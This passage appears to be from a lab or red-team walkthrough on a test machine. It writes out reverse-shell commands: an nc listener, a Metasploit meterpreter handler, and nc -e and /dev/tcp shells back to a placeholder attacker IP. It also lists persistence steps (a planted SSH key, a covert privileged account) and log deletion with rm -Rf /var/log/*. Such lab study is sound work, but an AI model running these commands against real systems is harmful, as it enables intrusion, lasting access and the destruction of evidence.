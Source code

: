 #### Reverse Shell: ATTACKER

Use Netcat:

> `nc -l -p 9999 -vvv`

OR use Metasploit:

> `sudo msfdb init && msfconsole`

And set the Options, thusly (replacing `10.2.11.212` with your workstation IP address):

```metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.2.110.212
set LPORT 9999

exploit
```

#### Reverse Shell: TARGET

On the target machine (by-hand for testing, and then ultimately via `buildscript.sh`), connect to the listener on our attacker box with Netcat:

> `nc yyy.yyy.yyy.yyy 9999 -e /bin/bash`

However, since there are variations of `nc` and some don't allow the `-e` argument - if you get an error about that, you could use some Linux trickery with this statement:

> `exec 5<>/dev/tcp/yyy.yyy.yyy.yyy/9999 && cat <&5 | while read line; do $line 2>&5 >&5; done`

**NOTE:** Make sure to set `yyy.yyy.yyy.yyy` to the attacker IP address and `9999` to the attacker port.

[Source: https://incognitjoe.github.io/reverse-shells-for-dummies.html]

Also see: [buildscript.sh](downloads/src/buildscript.sh)


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`
